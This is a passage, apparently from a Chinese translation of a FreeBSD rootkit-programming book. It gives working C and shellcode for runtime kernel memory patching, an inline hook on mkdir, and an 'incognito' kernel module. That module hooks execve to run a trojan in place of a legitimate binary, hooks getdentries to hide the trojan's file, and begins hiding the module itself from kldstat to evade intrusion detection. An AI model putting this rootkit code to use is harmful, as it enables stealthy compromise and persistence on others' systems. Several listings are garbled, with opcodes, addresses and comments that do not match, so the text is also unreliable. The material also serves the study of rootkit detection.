    "\x89\xe5"                    /* mov %esp,%ebp */
    "\x53"                        /* push %ebx */
    "\xba\x01\x00\x00\x00"      /* mov 0x0,%edx */
    "\x83\xec\x10"               /* sub %esp,0x10 */
    "\x89\xcd\x24\x08"          /* mov %ecx,(ebp) */
    "\x88\xd0"                   /* mov %dx,0x4(%esp) */
    "\x89\x51\x24\x04"          /* mov %ebx,(ebp) */
    "\x83\x03"                   /* mov (%ebx),eax */
    "\x8e\xfc\xff\xff"          /* call 4e2,kmalloc+0x22 */
    "\x89\x45\xf8"               /* mov 0ffff8,(ebp) */
    "\x88\x04\x00\x00\x00"      /* mov 0x4,%eax */
    "\x89\x44\x24\x08"          /* mov %eax,(esp+8) */
    "\x88\x43\x04"               /* mov 0x4(%esp),eax */
    "\x89\x44\x24\x04"          /* mov %eax,(esp+4) */
    "\x8e\xfc\xff\xff\xff"      /* movfd 500<kmalloc+0x40> */
    "\x83\xc4\x10"               /* add 0x10,$esp */
    "\x5b"                        /* pop %ebx */
    "\x5d"                        /* pop %ebp */
    "\xc3"                        /* ret     */
    "\x8d\xb6\x00\x00\x00"      /* lea 0x0(%esi),esi */
};
```

/* kmalloc 内部调用语句之后指令的相对地址。 */

```c
#define OFFSET_1   0x26
#define OFFSET_2   0x44
```

```c
nl[0].n_name = "mkdir";
l[1].n_name = "M_TEMP";
l[2].n_name = "malloc";
l[3].n_name = "copyout";
```

* 查找 mkdir, M_TEMP, malloc 和 copyout 的地址。 *
if (kvmnistlist(kd, nl) < 0) {
    fprintf(stderr, "ERROR: %s\n", kvm_geterrd(kd));
    exit(-1);
}

```c
for (i = 0; i < 4; i++) {
    if (nl[i].n_value) {
        fprintf(stderr, "ERROR: Symbol %s not found\n",
        nl[i].n_name);
        exit(-1);
    }
}
```

/* 补丁 kmalloc 函数代码，使其包含正确的地址
* M_TEMP, malloc 和 copyout。
*(unsigned long*)&kmalloc[10] = nl[1].n_value;
*(unsigned long*)&kmalloc[34] = nl[2].n_value - 
(nl[0].n_value + OFFSET_1);
*(unsigned long*)&kmalloc[64] = nl[3].n_value - 
(nl[0].n_value + OFFSET_2);

/* 保存 mkdir 的 sizeof 字节。 */
if (kvm_read(kd, nl[0].n_value, mkdir_code, sizeof(kmalloc)) < 0) {
    fprintf(stderr, "ERROR: %s\n", kvm_geterrd(kd));
    exit(-1);
}

/* 用 kmalloc 覆盖 mkdir。 */
if (kvm_write(kd, nl[0].n_value, mkdir_code, sizeof(kmalloc)) < 0) {
    fprintf(stderr, "ERROR: %s\n", kvm_geterrd(kd));
    exit(-1);
}

/* 分配内核内存。 */
syscall(136, (unsigned long)atoi(argv[1]), &addr);
printf("Address of allocated kernel memory: 0%x\n", addr);

/* 恢复 mkdir。 */
if (kvm_write(kd, nl[0].n_value, mkdir_code, sizeof(kmalloc)) < 0) {
    fprintf(stderr, "ERROR: %s\n", kvm_geterrd(kd));
    exit(-1);
}

/* 关闭 kd。 */
if (kvm_close(kd) < 0) {
    fprintf(stderr, "ERROR: %s\n", kvm_geterr(kd));
    exit(-1);
}

exit(0);
```

列表 5-6: kmalloc_reloaded.c

在前面的代码中，① kmalloc 函数是通过反汇编列表 5-4 中的 kmalloc 系统调用生成的：

```bash
$ objdump -dR ./kmalloc.ko
```

```
./kmalloc.ko: file format elf32-i386-freebsd

section .text 的反汇编:

000004c0 <kmalloc>:

4c0:    55              push %ebp

4c1:    89 01 00 00 00    mov $0x1,%ec

4c6:    89 e5           mov %esp,%ebp

4c8:    53              push %ebx

4c9:    ba 00 00 00 00    mov $0x0,%edx

①4ca: R_386_32    M_TEMP

4ce:    83 ec 10        sub    $0x10,%esp

4d1:    89 24 24 08      mov %ec,8(%esp)

4d5:    8b 5d 0c        mov %0xc(%ebp),ebx

4d8:    89 24 08        mov %edx,4(%esp)

4dc:    8b 03           mov (%ebx),eax

4de:    89 04 24        mov %eax,%esp)

4e1:    e8 fc ff ff fc    call   -4 <kmalloc+0x22>

②4e2: R_386_PC32 call

4e6:    89 45 78        mov %eax,8(%esp)

4e9:    8b 04 00 00 00    mov $0x4,%eax

4ee:    89 24 28        mov %eax,8(%esp)

4f2:    8b 43 04        mov %0x4(%ebp),ebax

4f5:    89 24 04        mov %eax,4(%esp)

4f9:    8d 45 58        lea 0xfffe(%ebp),eax

4fc:    89 04 24        mov %eax,%esp)

4ff:    e8 fc ff fc    call   500 <kmalloc+0x40>

504:    83 c4 10        add    $0x10,%esp

507:    5b              pop %ebx

508:    5d              pop %ebp

509:    c3              ret

50a:    8b 66 00 00    lea 0x0(%esi),esi
```

注意 objdump 报告了三个需要重定位的指令。第一个偏移 10 是 ① M_TEMP 的地址。第二个偏移 34 是 ② malloc 操作。第三个偏移 64 是 ③ copyout 操作。

在 kmalloc_reloaded.c 中，我们通过以下行代码在 kmalloc 函数中处理这一点：

```c
*(unsigned long*)&kmalloc[10] = nl[1].n_value;
*(unsigned long*)&kmalloc[34] = nl[2].n_value - 
(nl[0].n_value + OFFSET_1);
*(unsigned long*)&kmalloc[64] = nl[3].n_value - 
(nl[0].n_value + OFFSET_2);
```

注意 kmalloc 如何在偏移 10 处通过 ① M_TEMP 地址以及在偏移 34 和 64 处通过 ② malloc 地址和 ③ call 指令分别进行补丁。以下输出显示了 kmalloc_reloaded 的运行情况：

```bash
$ gcc -o kmalloc_reloaded kmalloc_reloaded.c
$ ./kmalloc_reloaded 10
Address of allocated kernel memory: 0xc1bb90
```

要验证内核分配，可以使用像 ddb 这样的内核调试器：

```
KDB: enter
thread 1
Stopped at
db> examine/x 0xc1bb90
xc1bb90: 0x707070
xc1bb94: 0x707070
```

## 5.6 Inline Hook

5.3 结尾的问题是：当你想要补丁内核代码但补丁太大会覆盖指令怎么办？答案是：使用 inline hook。通常，inline hook 在函数内部跳转到你控制的内存区域。该内存将包含你想让函数执行的“新”代码、被覆盖的字节以及一个跳回原始函数的跳转。这将扩展功能。当然，你不需要保留原始行为。

### 5.6.1 示例

在本节中，我们将使用 inline hook 补丁 mkdir 系统调用，使其在每次创建目录时输出短语“Hello, world!”。现在，让我们查看 mkdir 反汇编，看看我们应该在哪里放置跳转，需要保留哪些字节以及我们应该跳回哪里。

```bash
$ nm /boot/kernel/kernel | grep mkdir
047c560 T Devfs_mkdir
0620e40 t handle_written_mkdir
05556ca0 T kern
05bfa10 T mkdir
07d1f40 B mkdird
04ef6a0 t msdos_mkdir
06579e0 t nfs4_mkdir
066a910 t nfs_mkdir
067a8b30 b nfsrv_mkdir
075155b6 r nfsv3_mkdir
066c32e0 t ufs_mkdir
07b8d20 D mkdir_dir_desc
055b7ff0 T mkdir_dir_post
07b8d44 d mkdir_dir_offsets
$ objdump -d --start-address=0xc557ec0 /boot/kernel/mkdir
```

/boot/kernel: file format elf32-i386-freebsd

section .text 的反汇编:

```
c0557ec0:    push %ebp
c0557ec1:    89 e5      mov %esp,%ebp
c0557ec3:    83 ec 10    sub $0x10,%edx
c0557ec6:    88 55 0c    mov (%ebp),edx
c0557ec9:    88 42 04    mov 0x4(%edx),eax
c055fecc:             mov %eax,%esp
c055fcd:             31          xor %eax,%eax
c0557fd9:    89 44 24 08  mov %eax,0x8(%esp)
c0557fde:             88 02      mov (%edx),eax
c0557fd8:    89 44 24 04  mov %eax,4(%esp)
c0557dec:    8b 45 08    mov 8(%ebp),eax
c0557edf:    89 04 24    mov %eax,%esp
c055fee2:    e8 29 ff ff  call 0xc055fa10<kern_mkdir>
c055fef7:             c9          leave
c055fe8:             ret
```

因为我想扩展 mkdir 的功能而不是更改它，最好的位置是开头。无条件跳转需要七个字节。如果你覆盖了 mkdir 的前七个字节，前三条指令将被消除，第四条指令（从偏移 6 开始）将被破坏。因此，我们需要保存前四条指令（即前九个字节）以保留 mkdir 的功能；这意味着你应该跳回偏移 9，以从第五条指令继续执行。

在执行此计划之前，让我们看看以下内容的反汇编：

回顾这两个反汇编代码，注意 `mkdir` 每次都会调用 `kern_mkdir`。因此，我们可以跳转回那里（即 `0xe8`）。为了保留 `mkdir` 的功能，我们现在必须保存到 `0xe8` 之前但不包含它的的所有字节。

列表 5-7 显示了我 `mkdir` 内联函数钩子。

注意：为了节省篇幅，省略了 `kmalloc` 函数。

```c
#include <fcntl.h>
#include <kvm.h>
#include <limits.h>
#include <list.h>
#include <stdio.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <sys/module.h>
```

```c
/* 内核内存分配 kmalloc 函数代码。 */
unsigned char kmalloc[] =
```

> /* kmalloc 内部调用语句之后指令的
* 相对地址。 */

```c
#define K_OFFSET_1 0x26
#define K_OFFSET_2 0x44
```

```c
/* "Hello, world!\n" 函数代码。 */
unsigned char hello[] = {
    "\x48" /* e
    "\x65" /* l
    "\x6c" /* l
    "\x6c" /* o
    "\x6f" /* ,
    "\x2c" /* /\n
    "\x77" /* W
    "\x6f" /* o
    "\x72" /* r
    "\x6c" /* l
    "\x64" /* d
    "\x21" /* !
    "\x0a" /* \n
    "\x55" /* push %ebp
    "\x89\xe5" /* mov %esp,%ebp
    "\x83\x74" /* sub $0x4,$esp
    "\xc7\x04\x24\x00\x00\x00" /* movl $0x0,(esp)
    "\xe8\xfc\xff\xff" /* call uprintf
```


# 第 5 章

## 代码示例

```c
/*
* inline hello 内部调用 upprintf
* 语句之后指令的相对地址。
*/
#define H_OFFSET_1    0x21

/* 无条件跳转代码。 */
unsigned char jmp[] = {
    "\xb8\x00\x00\x00\x00" /* movl $0,%eax */
    "\xff" /* jmp */
};

int main(int argc, char *argv[]) {
    int i, call_offset;
    char errbuf[PATH_MAX];
    kvm_t *kd;
    struct nlist nl[] = {{NULL}, {NULL}, {NULL}, {NULL}, {NULL}, {NULL}};
    unsigned char mkdir_code[sizeof(malloc)];
    unsigned long addr, size;

    /* 初始化内核内存访问。 */
    kd = kvm_open(NULL, NULL, NULL, O_RDWR, errbuf);
    if (kd == NULL) {
        fprintf(stderr, "ERROR: %s\n", errbuf);
        exit(1);
    }

    nl[0].n_name = "mkdir";
    nl[1].n_name = "M_TEMP";
    nl[2].n_name = "malloc";
    nl[3].n_name = "copyout";
    nl[4].n_name = "printf";

    /*
    * mkdir, M_TEMP, malloc, copyout,
    * 以及 printf 的地址。
    */
    if (kvm_nlist(kd, nl) < 0) {
        fprintf(stderr, "ERROR: %s\n", errbuf);
        exit(1);
    }

    for (i = 0; i < 5; i++) {
        if (!nl[i].n_value) {
            fprintf(stderr, "ERROR: %s not found\n", nl[i].n_name);
            exit(1);
        }
    }

    /* 将 sizeof(malloc) 字节的 mkdir 保存到 mkdir_code 中。 */
    if (kvm_read(kd, nl[0].n_value, mkdir_code, sizeof(malloc)) < 0) {
        fprintf(stderr, "ERROR: %s\n", errbuf);
        exit(1);
    }

    /* 在 mkdir 中搜索调用 kern_mkdir 的地方。 */
    for (i = 0; i < sizeof(kmalloc); i++) {
        if (mkdir_code[i] == 0xe8) {
            call_offset = i;
            break;
        }
    }

    /* 确定你需要分配多少内存。 */
    size = (unsigned long)sizeof(hello) + (unsigned long)call_offset + (unsigned long)sizeof(jmp);

    /*
    * 补丁 kmalloc 函数代码，使其包含
    * M_TEMP, malloc 和 copyout 的正确地址。
    */
    *(unsigned long*)&kmalloc[10] = nl[1].n_value;
    *(unsigned long*)&kmalloc[34] = nl[2].n_value - (nl[0].n_value + K_OFFSET_1);
    *(unsigned long*)&kmalloc[64] = nl[3].n_value - (nl[0].n_value + K_OFFSET_2);

    /* 用 kmalloc 覆盖 mkdir。 */
    if (kvm_write(kd, nl[0].n_value, kmalloc, sizeof(kmalloc)) < 0) {
        fprintf(stderr, "ERROR: %s\n", errbuf);
        exit(1);
    }

    /* 分配内核内存。 */
    syscall(136, size, &addr);

    /* 恢复内核内存。 */
    if (kvm_write(kd, nl[0].n_value, mkdir_code, sizeof(kmalloc)) < 0) {
        fprintf(stderr, "ERROR: %s\n", errbuf);
        exit(1);
    }

    /*
    * 补丁 "Hello, world!\n" 函数代码，使其包含
    * "Hello, world!\n" 字符串和 uprint 的正确地址。
    */
    *(unsigned long*)&hello[24] = addr;
    *(unsigned long*)&hello[29] = nl[4].n_value - (addr + H_OFFSET_1);

    /*
    * 将 "Hello, world!\n" 函数代码放入
    * 最近分配的内核内存中。
    */
    if (kvm_write(kd, addr, hello, sizeof(hello)) < 0) {
        fprintf(stderr, "ERROR: %s\n", errbuf);
        exit(1);
    }

    /*
    * 将到 kern_mkdir 之前的所有 mkdir 代码
    * 放在 "Hello, world!\n" 函数代码之后。
    */
    if (kvm_write(kd, addr + (unsigned long)sizeof(hello) - 1, mkdir_code, call_offset) < 0) {
        fprintf(stderr, "ERROR: %s\n", errbuf);
        exit(1);
    }

    /*
    * 补丁无条件跳转，跳回 mkdir 内部
    * kern_mkdir 调用语句。
    */
    *(unsigned long*)&jmp[1] = nl[0].n_value + (unsigned long)call_offset;

    /*
    * 将无条件跳转代码放入最近分配
    * 的内核内存中，位于 mkdir 代码之后。
    */
    if (kvm_write(kd, addr + (unsigned long)sizeof(hello) - 1 + call_offset, jmp, sizeof(jmp)) < 0) {
        fprintf(stderr, "ERROR: %s\n", errbuf);
        exit(1);
    }
}
```

因为实现此操作的代码相当冗长（比 `mkdir_patch.c` 还要长），我将简单解释其实现方法，并将实际代码留给你们。

FreeBSD 中的系统调用分发器是 `syscall`，它在文件 `/sys/i386/i386/trap.c` 中的实现如下。

注意：为了节省空间，省略了任何与此讨论无关的代码。

```c
void
syscall(struct trapframe *frame)
{
    caddr_t params;
    struct sysent *callp;
    struct thread *td = curthread;
    struct proc *p = td->td_proc;
    register_t orig_tf_eflags;
    u_int sticks;
    int error;
    int narg;
    int args[8];
    u_int code;

    if (code >= p->p_sysent->sv_size)
        callp = &p->p_sysent->sv_table[0];
    else
        callp = &p->p_sysent->sv_table[code];
}
```

在 `syscall` 中，系统调用引用系统调用表，并将要分发的系统调用地址存储到 `callp` 中。以下是该行反汇编后的样子：

```
486:    64 a1 00 00 00 00   mov     %fs:0x0,%eax
48c:    8b 00               mov     (%eax),%eax
48e:    8b 80 0a 01 00 00   mov     0x1a(%eax),%eax
494:    8b 40 04            mov     0x4(%eax),%eax
```

第一条指令将 `curthread`（当前运行的线程，即 `%fs` 段寄存器）加载到 `eax`。线程结构中的第一个字段是指向其关联 `proc` 结构的指针；因此，第二条指令将当前进程加载到 `eax`。下一条指令将 `p->p_sysent` 加载到 `eax`。这可以被验证，因为 `p_sysent` 字段（这是一个 `sysentvec` 指针）位于 `proc` 结构内偏移 `0x1a` 的位置。最后一条指令将系统调用表加载到 `eax`。这也可以被验证，因为 `sv_table` 字段位于 `sysentvec` 结构内偏移 `0x4` 的位置。这最后一行就是你需要扫描并打补丁的地方。但是，请注意，系统调用表可能会加载到不同的通用寄存器中。

此外，在对系统调用表进行木马化处理后，加载的任何系统模块将不会生效。然而，由于你现在控制了负责加载模块的系统调用，这个问题可以修复。
就是这样！你实际上只需要在一个地方打补丁。当然，魔鬼隐藏在细节中。（事实上，我在第 5.6.2 节中列出的所有陷阱都是尝试修补该位置的直接结果。）

> **注意** 如果你对自己的系统调用表进行木马化，你将使传统的系统调用钩子失效。换句话说，这种隐藏系统调用的技术可以用于防御目的。

## 5.8 结语

运行时内核内存补丁是修改软件逻辑最强大的技术之一。理论上，你可以用它动态地重写整个操作系统。此外，取决于你放置补丁的位置以及你是否使用内联函数钩子，它很难被检测。

在写作期间，一种隐藏运行时内核内存补丁的技术已经发布。参见 Jamie Butler 和 Sherri Sparks 在《Phrack》杂志第 63 期上发表的《Raising The Bar For Windows Rootkit Detection》。尽管这篇文章是从 Windows 角度编写的，但该理论可以应用于任何 x86 操作系统。

最后，与大多数技术一样，运行时内存补丁有合法的用途。例如，微软使用它进行热补丁而无需重启。

# 6 整合


我们现在将使用前几节的技术来编写一个完整的木马——尽管是一个简单的——来绕过基于主机的入侵检测系统（HIDS）。

## 6.1 HIDS 在做什么

通常情况下，HIDS 被设计用于监控、检测并记录对文件的修改。每当 HIDS 创建文件的哈希值时，它会记录在数据库中。

## 6.2 绕过 HIDS

对于 HIDS 的问题在于它信任系统 API。通过滥用这些 API（例如钩子这些调用），你可以绕过 HIDS。

> **注意** 这个问题很讽刺，设计用于检测文件的软件会信任系统 API。可以通过钩子 `execve` 系统调用来实现。

## 6.3 执行重定向

执行重定向在 `/sys/kern/exec.c` 中的实现如下：

```c
static int
execve_hook(struct thread *td, void *syscall_args)
{
    struct execve_args {
        char *filename;
        char **argv;
        char **envv;
    } uap;

    uap = (struct execve_args *)syscall_args;
    struct execve_args kernel_ea;
    struct execve_args *user_ea;
    struct vmspace *vm;
    vm_offset_t base, addr;
    char t_filename[] = "/bin/trojan";

    /* 重定向这个进程？ */
    if (strcmp(uap->filename, "/hello") == 0) {
        /* 确定当前进程用户空间的边界 */
        vm = curthread->td_proc->p_vmspace;
        base = round_page((vm_offset_t)vm->vm_daddr);
        addr = base + ctob(vm->vm_dsize);

        /* 为一组新的执行参数分配 PAGE_SIZE 大的空内存 */
        vm_map_find(&vm->vm_map, NULL, &addr, PAGE_SIZE, FALSE,
            VM_PROT_ALL, VM_PROT_ALL, 0);
        vm->vm_dsize += btoc(PAGE_SIZE);

        /*
        * 为 Trojan 设置 execve_args 结构。记住，
        * 你必须将此结构放入用户空间，因为一旦
        * 进入内核空间，你就无法指向用户空间中的元素，
        * 你必须将该结构指向的任何新“数组”也放入用户空间。
        */
        copyout(t_filename, (char*)addr, strlen(t_filename) + 1);
        kernel_ea.filename = (char*)addr;
        kernel_ea.argv = uap->argv;
        kernel_ea.envv = uap->envv;

        /* 拷贝出 Trojan execve_args 结构 */
        user_ea = (struct execve_args*)(addr + strlen(t_filename) + 1);
        copyout(&kernel_ea, user_ea, sizeof(struct execve_args));

        /* 执行 TROJAN。 */
        return execve(td, user_ea);
    }
    return execve(td, syscall_args);
}
```

**Listing 6-1: hello.c**

**Listing 6-2: trojan.c**

```c
/* 在加载/卸载时调用的函数。 */
static int
load(struct module *module, int cmd, void *arg)
{
    switch (cmd) {
    case MOD_LOAD:
        sysent[SYS_execve].sy_call = (sy_call_t *)execve_hook;
        break;
    case MOD_UNLOAD:
        sysent[SYS_execve].sy_call = (sy_call_t *)execve;
        break;
    }
    return 0;
}

static moduledata_t incognito_mod = {
    "incognito",    /* 名称 */
    load,           /* 事件处理器 */
    NULL,           /* 额外数据 */
};

DECLARE_MODULE(incognito, incognito_mod, SI_SUB_DRIVERS, SI_ORDER_MIDDLE);
```


## 列表 6-3: incognito-0.1.c

在此列表中，函数 `execve_hook` ❶ 检查了要执行的文件名。如果文件名是 `/sbin/hello`，② 当前进程用户数据的结束边界地址存储在 `addr` 中，并传递给 ⓷。`execve` 参数结构被为 `trojan_hello` 二进制文件设置好，该文件被 ❹ 插入到新“分配”的用户数据空间中。最后，⑤ 调用 `execve` 并将 `trojan_hello_args` 结构的地址作为第二个参数——这有效地将 `hello` 的执行重定向到了 `trojan`。

> 关于 `execve_hook` 的一个有趣细节是：经过一两处微调，它就是从内核空间执行用户空间进程所需的精确代码。

还有一个值得提的点。注意看，这次事件处理器函数没有卸载系统调用钩子；那将需要重启。这是因为“存活”rootkit 不需要卸载例程——一旦你安装了它，你就希望它一直保持安装状态。接下来的输出显示了示例 rootkit 的运行情况。

```
$ hello
May the force be with you.

$ trojan_hello
May the schwarz be with you!

$ sudo kldload ./incognito-0.1.ko

$ hello
May the schwartz be with you!
```

太了，我们现在成功地对 `hello` 植了木马，没有任何 HIDS（主机入侵检测系统）会察觉——除非我们在文件系统中放置了一个新的二进制文件（`trojan_hello`），任何 HIDS 都会标记它。哎！

## 6.4 隐藏文件

为了解决这个问题，让我们隐藏 `trojan`，让它不出现在文件系统中。这可以通过挂钩 `getdentries` 系统调用来实现。该调用负责列出（即返回）目录的内容，它在文件 `/sys/kern/vfs_syscalls.c` 中的实现如下。

看一眼这段代码并尝试辨析其中的某些结构。如果你不理解全部内容，不要担心。此列表之后将有一个 `getdentries` 系统调用的解释。

```c
int
getdentries(td, up) {
    struct thread *td;
    struct getdentries_args {
        int fd;
        char *buf;
        unsigned int count;
        long *base;
    } *uap;
    struct vnode *vp;
    struct file *fp;
    struct uio aio;
    struct iovec iov;
    int vfocked;
    long loff;
    int error, eofflag;

    if ((error = getnode(td->td_proc, uap->fd, &fp)) != 0)
        return (error);

    if ((fp->f_flag & FREAD) == 0) {
        fdrop(fp, td);
        return (EBADF);
    }

    vp = fp->vnode;

unionread:
    vfocked = VFS_GIANT(vp->mount);
    if (vp->type == VDIR) {
        error = EINVAL;
        goto fail;
    }

    aiov.iov_base = uap->buf;
    aiov.iov_len = uap->count;
    uio.iov = &aio;
    uio.iov_cnt = 1;
    uio.io_rw = UIO_READ;
    uio.io_seg = UIO_USERSPACE;
    uio.td = td;
    uio.io_resid = uap->count;

    /* vn_lock(vp, LK_SHARED | LK_RETRY); */
    vn_lock(vp, LK_EXCLUSIVE | LK_RETRY);

    loff = uio.io_offset = fp->f_offset;

#ifdef MAC
    error = mac_check_vnode(td->td_cred, vp);
    if (error == 0)
#endif
    error = VOP_READDIR(vp, &aio, fp->f_cred, &fp->offlag, NULL);

    fp->f_offset = uio.io_offset;
    VOP_UNLOCK(vp, 0, td);

    if (error)
        goto fail;

    if (uap->count == uio.io_resid) {
        if (union_dircheck) {
            error = union_dircheck(td, &vp, fp);
            if (error == -1) {
                VFS_GIANT(vfocked);
                goto unionread;
            }
        }
        if (error)
            goto fail;
    }

    /*
     * XXX could delay dropping the lock above
     * union_dircheck complicates things.
     */

    vn_lock(vp, LK_EXCLUSIVE | LK_RETRY);

    if ((vp->v_flag & MN_ROOT) && (vp->mount->mnt_flag & MNT_UNION)) {
        struct vnode *tvp = vp;
        vp = vp->mount->mnt_vnode;
        VREF(vp);
        fp->f_vnode = vp;
        fp->f_data = vp;
        fp->f_offset = 0;
        vput(tvp);
        VFS_GIANT(vfocked);
        goto unionread;
    }

    VOP_UNLOCK(vp, 0, td);

fail:
    if (uap->base != NULL) {
        error = copyout(loff, uap->base, sizeof(long));
    }

    td->td_retval[0] = uap->count - uio.io_resid;
}
```

`getdentries` 系统调用将目录引用的目录项（即文件描述符 `fd`）读入缓冲区 `buf` 中。简单来说，`getdentries` 获取条目。如果成功，则返回实际传输的字节数。否则，返回 -1 并设置全局 `errno` 以指示错误。

读取缓冲区 `buf` 中的目录项存储为一系列 `dirent` 结构体，该结构在 `<sys/dirent.h>` 头文件中定义如下：

```c
struct dirent {
    uint32_t d_fileno;      /* inode 编号 */
    uint16_t d_reclen;      /* 此目录项的长度 */
    uint8_t  d_type;        /* 文件类型 */
    uint8_t  d_namlen;      /* 文件名长度 */

    #if BSD_VISIBLE
    #define MAXNAMLEN 255
    char d_name[MAXNAMLEN + 1]; /* 文件名 */
    #else
    char d_name[255 + 1];      /* 文件名 */
    #endif
};
```

如此列表所示，每个目录项的上下文维护在直接结构中。这意味着，为了在文件系统中隐藏一个文件，你只需要阻止 `getdentries` 将文件的结构存储在 `buf` 中。列表 6-4 是一个为了实现此目的而适配的 rootkit 示例（基于 1999 年实用文件隐藏运行时）。

注意：为了节省空间，我没有完整列出执行重定向例程（即 `execve_hook` 函数）。

```c
#include <sys/types.h>
#include <sys/param.h>
#include <sys/proc.h>
#include <sys/module.h>
#include <sys/sysent.h>
#include <kernel.h>
#include <sys/system.h>
#include <sys/syscall.h>
#include <sys/sysproto.h>
#include <malloc.h>
#include <vm/vm.h>
#include <vm/page.h>
#include <vm/vm_map.h>
#include <dirent.h>

#define ORIGINAL "/sbin/hello"
#define TROJAN   "/sbin/trojan_hello"
#define T_NAME   "trojan_hello"

/*
 * 将 ORIGINAL 的执行重定向到 TROJAN。
 */
static int
execve_hook(struct thread *td, void *args)
{
  ..
}

/*
 * getdentries 系统调用钩子。
 * 隐藏 T_NAME。
 */
static int
getdentries_hook(struct thread *td, void *args)
{
    struct getdentries_args {
        int fd;
        char *buf;
        unsigned int count;
        long *base;
    } *uap;

    struct dirent *dp, *current;
    unsigned int size, count;

    /* fd 中包含的目录项
     * 注意：最后一个目录项始终为零。
     */
    getdentries(td, args);

    size = td->td_retval[0];

    /* fd 是否包含目录项？ */
    if (size > 0) {
        malloc(dp, struct dirent *, size, M_NOWIT);
        copy(uap->buf, dp, size);

        current = dp;
        count = size;

        /* 遍历目录项 */
        while ((current->d_reclen != 0) && (count > 0)) {
            count -= current->d_reclen;

            /* 我们想隐藏这个文件吗？ */
            if (strcmp((char *)&current->d_name, T_NAME) == 0) {
                /*
                 * 拷贝 T_NAME 之后的目录项，
                 * 将其切除。
                 */
                if (count != 0) {
                    copy((char*)current + current->d_reclen, current, count);
                }
                break;
            }

            /* 还有更多目录项需要查找吗？ */
            if (count != 0)
                /* 进到下一条记录。 */
                current = (struct dirent*)(char*)current + current->d_reclen;
        }

        free(dp, M_TEMP);
    }

    if (uap->base != NULL) {
        copyout(count, uap->base, sizeof(long));
    }

    td->td_retval[0] = count;
} else {
    td->td_retval[0] = 0;
}

return 0;
}
```

`fd` 实际上包含了目录条目。③ `buf` 的内容（一系列 `dirent` 结构体）被复制到内核空间。随后，② 将每个 `dirent` 结构的文件名与常量 `T_NAME`（在此情况下为 `trojan_hello`）进行比较。如果找到匹配项，③ 将该“幸运”的 `dirent` 结构体从 `buf` 的内核空间中移除，该结构最终会被 ② 复制到外部，覆盖 `buf` 的内容，并有效地隐藏了 `T_NAME`（即 `trojan_hello`）。此外，为了保持一致性，③ 会调整实际传输的字节数，以补偿“丢失”的这个 `dirent` 结构体。

如果你安装了新的根内核（rootkit），你会得到：

```
$ ls /sbin/tbin*
/sbin/trojan_hello /sbin/trojan_ef

$ sudo kldload ./incognito-0.2.ko

$ hello
May the schwartz be with you!

$ ls /sbin/tbin*
/sbin/trojanef
```

太棒了。我们现在有效地在不给文件系统留下任何痕迹的情况下对 `hello` 进行了木马化。① 当然，这一切并不重要，因为一个简单的 `kldstat(8)` 就能暴露这个根内核：

```
# kldstat
| Id | Address | Size | Name |
|---|---|---|---|
| 1 | 0xc0400000 | 63070 | kernel |
| 2 | 0xc0a3j100 | 56bdc | acpi.ko |
| 3 | 0xc1eb8c2000 | 2000 | incognito-0.2.ko |
```

该死的！

## 6.5 隐藏 KLD

为了解决这个问题，我们将采用一些 DKOM 来隐藏根内核，从技术上讲，它是一个 KLD。

回想第 1 章，每当你将 KLD 加载到内核时，你实际上是在加载一个包含一个或多个内核模块的链接文件。因此，每当加载一个 KLD 时，它会被存储在两个不同的列表中：`linker_files` 和 `modules`。正如它们的名称所示，`linker_files` 包含已加载的链接文件集，而 `modules` 包含已加载的内核模块集。

使用之前的 DKOM 代码，KLD 隐藏将以安全的方式遍历这两个列表，并移除你选择的结构体。

> ¹ 实际上，你仍然可以通过 `/sbin/trojan_hello` 找到 `trojan_hello`，因为直接查找被阻止了。阻止对文件的直接查找并不难，但它非常琐碎。你需要挂钩 `open(2)`、`stat(2)` 和 `lstat(2)`，并在文件为 `/sbin/trojan_hello` 时让它们返回 `ENOENT`。

### 6.5.1 linker_files 列表

```
static linker_file_list_t linker_files;
```

注意 `linker_files` 被声明为 `linker_file_list_t` 类型，它定义在 `<sys/linker.h>` 头文件中如下：

```
typedef TAILQ_HEAD(linker_file) linker_file_list_t;
```

从这些列表中，你可以看到 `linker_files` 仅仅是 `linker_file` 结构体的双链尾队列（tail queue）。
关于 `linker_files` 的一个有趣细节是它关联了一个计数器，该计数器定义在 `/sys/kern/kern_linker.c` 文件中：

```
static int next_file_id = 1;
```

当加载一个链接文件时（即每当向 `linker_files` 添加条目时），其 ID 数字将变为 `next_file_id` 的当前值，然后加 1。
关于 `linker_files` 的另一个有趣细节是，与书中的其他列表不同，它不受专用锁的保护；这迫使我们使用 Giant。Giant 在多程度上是为保护整个内核而设计的“万能”锁。它定义在 `<sys/mutex.h>` 头文件中如下：

```
extern struct mtx Giant;
```


> 注意：在 FreeBSD 6.0 中，`linker_files` 确实有一个关联的锁，命名为 `kld mtx`。然而，`kld mtx` 并不保护 `linker_files`，这就是我们使用 `Giant` 的原因。在 FreeBSD 7 中，`linker_files` 受 `sx` 锁保护。

### 6.5.2 `linker_file` 结构体

每个链接文件的上下文维护在 `linker_file` 结构体中，该结构定义在 `<sys/linker.h>` 头文件中。以下列表描述了 `struct linker_file` 中的字段，为了隐藏 `linker_file`，你将需要这些字段。

```c
int refs;
```

该字段维护链接文件的引用计数。
一个需要注意的点是，`linker_files` 上的第一个 `linker_file` 结构是当前的内核镜像，每当加载链接文件时，其结构的 `refs` 字段就会加一，如下所示：

```bash
$ kldstat
Id Refs Address Size Name
1 3 0xc0400000 6370c kernel
2 16 0xc0a33100 568dc acpi.ko
$ sudo kldload ./incognito-0.2.ko
$ kldstat
```

| Id | Refs | Address | Size | Name |
|---|---|---|---|---|
| 1 | 4 | 0Xc0400000 | 6370c | kernel |
| 2 | 16 | 0Xc031000 | 568dc | acpi.ko |
| 3 | 1 | 0Xc1890000 | 2000 | incognito-0.2.ko |

你可以看到，在加载 `incognito-0.2.ko` 之前，当前内核镜像的引用计数为 3，而之后变为 4。因此，在隐藏链接文件时，必须记住将内核镜像的 `refs` 字段减一。

```c
TAILQ_ENTRY(linker_file) link;
```

该字段包含与 `linker_file` 结构关联的指针，存储在 `linker_files` 列表中。在 `linker_files` 的插入、删除和遍历期间会引用该字段。

```c
char* filename;
```

该字段包含链接文件的文件名。

### 6.5.3 `modules` 列表

`modules` 列表定义在 `/sys/src/kern/kern_module.c` 中：

```c
static modulelist_t modules;
```

注意 `module` 被声明为 `modulelist_t` 类型，它定义在 `/sys/src/kern/kern_module.c` 中：

```c
typedef TAILQ_HEAD(module) modulelist_t;
```

